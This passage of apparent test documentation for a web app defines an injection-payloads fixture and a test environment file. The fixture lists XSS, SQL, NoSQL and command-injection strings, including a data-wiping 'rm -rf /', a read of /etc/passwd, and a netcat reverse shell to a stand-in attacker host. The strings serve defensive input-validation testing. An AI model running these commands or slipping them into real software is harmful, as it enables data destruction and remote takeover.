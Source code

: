 ```json
}
```

### 5.2 Injection Payloads

**File:** `injection-payloads.json`

```json
{
  "xss": [
    "<script>alert('XSS')</script>",
    "<img src=x onerror=alert('XSS')>",
    "javascript:alert('XSS')",
    "<svg onload=alert('XSS')>",
    "';alert(String.fromCharCode(88,83,83))//'"
  ],
  "sql": [
    "'; DROP TABLE items; --",
    "' OR '1'='1",
    "admin'--",
    "' UNION SELECT * FROM users--",
    "1; DELETE FROM items WHERE 1=1--"
  ],
  "command": [
    "; rm -rf /",
    "| cat /etc/passwd",
    "`whoami`",
    "$(curl malicious.com)",
    "&& nc -e /bin/bash attacker.com 4444"
  ],
  "nosql": [
    "{\"$ne\": null}",
    "{\"$gt\": \"\"}",
    "{\"$where\": \"sleep(1000)\"}"
  ]
}
```

---

## 6. Environment Configuration

### 6.1 Test Environment Variables

**File:** `.env.test`

```bash
# Database
DATABASE_URL="file:./test.db"
TEST_DATABASE_URL="file:./test.db"

# NextAuth
NEXTAUTH_URL="http://localhost:3000"
NEXTAUTH_SECRET="test-secret-key-min-32-characters-long"

# Test Users
TEST_USER_EMAIL="test@example.com"
TEST_USER_PASSWORD="TestPassword123!"
TEST_ADMIN_EMAIL="admin@example.com"
TEST_ADMIN_PASSWORD="AdminPassword123!"

# Feature Flags
ENABLE_RECEIPT_PROCESSING=true
MAX_RECEIPT_SIZE_MB=5
```